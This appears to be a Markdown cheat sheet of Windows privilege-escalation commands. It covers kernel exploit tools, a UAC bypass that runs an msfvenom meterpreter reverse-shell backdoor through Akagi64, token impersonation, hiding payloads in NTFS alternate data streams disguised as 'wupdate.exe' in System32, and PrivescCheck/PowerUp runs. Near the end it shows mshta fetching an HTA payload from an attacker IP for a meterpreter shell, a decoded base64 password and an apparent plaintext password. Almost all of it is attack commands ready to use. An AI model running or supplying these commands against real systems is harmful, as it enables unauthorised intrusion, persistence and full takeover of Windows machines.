 # Windows Privilege Escalation

--------------------------------------------------------------------

## Windows Kernel Exploitation: (Not recommened can cause crashes)

```
Windows NT (Predefined)

Windows-Exploit-Suggester (Github Tool)

Windows-Kernel-Exploits (Github Tool)
```

--------------------------------------------------------------------

## UAC: (need to have an user inside the administrators group)

```
$ net localgroup administrators

UACMe (Github tool)
    
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f exe > backdoor.exe
use multi/handler (same payload as the paylaod)
set same ip and port 
.\Akagi64.exe 23 C:\Temp\backdoor.exe
    

exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
```

--------------------------------------------------------------------

## Windows Access Tokens: (SeImpersonatePrivilege, SeAssignPrimaryToken, SeCreateToken)

```
getprivs

load incognito

list_tokens -u

impoersonate_token “token_name”

migrate to other process
```

--------------------------------------------------------------------

## Alternate Data Streams:

> [!NOTE]
> Is an NTFS (New Tchnology File System) file attribute that was designed to provide compatibility with the MacOS HFS (Hierarchical File System).

> [!NOTE]
> Data stream (default stream that contains data of the file) and Resource stream (typically contains the metadata of the file).

```
notepad text.txt:secret.txt

type paylaod.exe > windowslog.txt:winpeas.exe

start windowslog.txt:windows.exe

cd Windows\System32

mklink wupdate.exe C:\Temp\windowslog.txt:winpeas.exe
```

--------------------------------------------------------------------


## PrivescCHECK - PowerShell script

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME% -Format TXT,CSV,HTML,XML"

powershell -ep bypass (PowerShell execution policy bypass)
. .\PowerUp.ps1
Invoke-PrivescAudit

Decode on powershell

Commands:
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($pa
ssword))
echo $password

runas.exe /user:administrator cmd


> Basic Mode

powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"


> Extended Mode + Export Txt Report

powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"
runas.exe /user:administrator cmd
hello_123321
use exploit/windows/misc/hta_server
Copy the generated payload i.e “[http://10.10.15.2:8080/jxEyD3w.hta”](http://10.10.15.2:8080/jxEyD3w.hta%E2%80%9D) and run it on cmd.exe
with mshta command to gain the meterpreter shell.
mshta.exe http://10.10.15.2:8080/jxEyD3w.hta
```

--------------------------------------------------------------------